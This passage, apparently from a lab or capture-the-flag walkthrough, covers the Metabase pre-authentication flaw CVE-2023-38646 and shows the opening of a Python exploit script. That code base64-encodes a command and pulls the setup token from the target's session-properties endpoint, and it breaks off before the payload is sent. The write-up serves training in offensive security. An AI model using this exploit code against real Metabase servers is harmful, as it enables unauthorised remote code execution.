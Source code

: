 ![metabase-login](/assets/images/web-exploitation/metabase-login.png)

With no credentials and nothing else to go by, we start researching recent vulnerabilities discovered in Metabase. A search for the keywords `metabase vulnerability cve` leads us to various [CVE repositories](https://www.cvedetails.com/vulnerability-list/vendor_id-19475/product_id-51231/Metabase-Metabase.html) that list an array of CVEs for the service.

### Foothold
Searching for that particular CVE leads us to a public [PoC](https://github.com/kh4sh3i/CVE-2023-38646). Since this PoC uses burp suite collaborator, we can create our own script based on this PoC. To start, we need to get the `setup_token` from our target. Next we define another function that will send our payload. Our final exploit script looks like this:
```python
import requests
import json
import base64
import argparse

def encode_command_to_b64(payload: str) -> str:
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    equals_count = encoded_payload.count('=')
    if equals_count >= 1:
        encoded_payload = base64.b64encode(f'{payload + " " * equals_count}'.encode('ascii')).decode()
    return encoded_payload

def get_setup_token_and_metabase_version(target_host):
    path = "/api/session/properties"
    url = f"{target_host}{path}"
    try:
        response = requests.get(url, verify=False)
        if response.status_code == 200:
            data = response.json()
            setup_token = data.get("setup-token")
```